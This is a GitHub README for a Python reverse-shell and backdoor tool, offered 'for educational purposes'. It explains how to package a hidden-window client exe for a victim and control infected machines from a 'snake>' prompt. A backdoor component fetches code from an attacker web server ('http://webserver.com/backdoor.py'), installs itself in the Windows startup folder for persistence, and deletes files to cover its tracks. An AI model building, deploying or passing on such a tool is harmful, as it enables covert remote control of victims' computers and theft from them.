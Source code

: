 ![](http://myspecialsite.host20.uk/Icon%20image.png)
***
# Overview
This is a hacking tool to get a reverse shell.

This is tool is for educational purpose only!

The responsibility on every use of this tool is on the user only!

Disclaimer: This reverse shell should only be used in the lawful, remote administration of authorized systems. Accessing a computer network without authorization or permission is illegal. 
***
## Installation 
Type in the command line `pip install -r requirements.txt` to install all required modules
***
## How to use
Make sure that you have port forwarding on port 42424 (you can change it if you want) to your computer.
Also make sure that you enable the port on your local firewall (inbound and outbound)
***
## Client
Make sure that you have you public IP address there on `s.connect((%PUBLIC IP ADDRESS%, 42424))`
***
## Convert client.py to .exe
Type in the terminal `pyinstaller -w --onefile "Multiple Clients/client.py"`.
Then you can delete the .spec file and the build folder.
The exe will be in "dist" folder.
 ***
## Using the tool
Start **server.py** using the following command:
`python3 server.py`
and wait for connection.

To see of all your connections type `snake> list` in the interactive prompt.

To send commands to one of your connections type `select` and the ID number of the connection.

E.X.:

`snake> select 0`

When you are in the reverse shell of one of your connection, you can type `getos` to see what OS is running on your connection machine.

To get a list of all the commands of the interactive prompt and other special commands, type `help` in the interactive prompt.

If you want to quit from your connection, type `quit` and then you'll be back in the interactive prompt.

If you want to quit from the entire program type `shutdown` in the interactive prompt.
***
## Sending files
To send files to a client type in the interative prompt the following command
`send`

Then you'll get a list of all connection, select a connection by its number on the left side of connections table.
after that you can choose between entering the path manually or by a file dialog, notice that the file dialog will create another window (Thats how tkinter file dialog works) don't close it or else you'll get some errors!
***
# Backdoor
If you want to plant also a backdoor give the user an exe version of the **client.py** from the folder **"Multi client and backdoor"**.

Upload the file **backdoor.py** to a server that you do a GET request to and change the address in **client.py** from 
`request = requests.get("http://webserver.com/backdoor.py")` to
`request = requests.get("%YOUR WEB SERVER ADDRESS%/backdoor.py")`

Alse make sure that you change `debug = True` to `debug = False` when you give to the file to the client, 
or else, if the request won't work, messages will be displayed (on the console) 

Make sure that the target computer have python 3 installed and pip or else the backdoor won't be installed.
## how the backdoor works
When the user open the program (exe version of **client.py**) the program will have 3 processes:
* The main process - The GUI
* The commands process - connects to the server and executes commands
* The backdoor process - get the code from the webserver and creates an exe version of it and saves it the startup folder (only from Windows machines for now)
What the backdoor process is exactly doing is, it saves the code from the webserver and saves on a file names **temp.py** (the file will be automatically removed), then a the process executes a pyinstaller command which creates an exe version of the backdoor in the startup folder which will make start automatically every time the machine starts and removes all unnecessary folders and files to cover tracks.

To change the name of the backdoor file find this line:
`name = "backdoor"  # Here you can change the name of the backdoor app` 
and change the value to the name you want
***
## Collaboration
If you want to collaborate with me about this project or about any other project, contact me on **ofer026@gmail.com**
